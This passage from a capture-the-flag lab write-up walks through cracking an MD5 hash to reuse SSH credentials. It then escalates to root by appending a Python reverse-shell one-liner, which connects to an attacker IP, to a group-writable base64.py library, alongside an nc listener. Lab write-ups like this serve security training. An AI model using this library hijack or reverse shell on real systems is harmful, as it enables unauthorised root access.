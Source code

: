  ```sh

  # in attacker machine
  strings valleyAuthenticator -n 6 > valleyStrings.txt
  # filter for strings more than 6 chars in length

  less valleyStrings.txt
  # check for any unusual strings
  ```

* The binary asks for a username-password pair; we can try both set of creds found earlier, but no luck.

* From the output of ```strings```, we are able to detect normal strings. However, there are other parts of strings like "e6722920bab2326f8217e4" and "bf6b1b58ac" seen before the login strings which is unusually long, and also because it is in hex only

* Checking from [Cipher Identifier](https://www.dcode.fr/cipher-identifier), it seems to be a MD5 hash - we can confirm this using online tools like [CrackStation](https://crackstation.net/)

* The first identified string is a MD5 hash, and cracking it gives us the password "liberty123". We can try this password with the 'valley' username we found earlier:

  ```sh
  ./valleyAuthenticator
  # enter creds 'valley:liberty123'
  # this works

  # we can SSH using same creds
  ssh valley@valley.thm

  id
  # shows that we are a part of a group named 'valleyAdmin'

  # check if this group owns any interesting files
  find / -group valleyAdmin 2>/dev/null

  # confirm the above
  ls -la /usr/lib/python3.8/base64.py
  ```

* Checking for files owned by 'valleyAdmin', it shows ```/usr/lib/python3.8/base64.py``` is owned by 'valleyAdmin', so we can make changes to this

* From the code for 'photosEncrypt.py', the Python script that we were checking earlier, it imports base64. We can take advantage of this by hijacking this Python library

* For simple library hijacking, we can add a reverse-shell one-liner at the end of our base64 library code:

  ```py
  import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.87.119",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
  ```

  ```sh
  # on attacker machine, start listener
  nc -nvlp 4444
  ```
  
  ```sh
  # in victim ssh
  nano /usr/lib/python3.8/base64.py
  # navigate to end of file
  # and add the reverse-shell one-liner
  # and save file 
  ```

* Once we add the reverse shell code and save the library, in a minute we get reverse shell on our listener as root
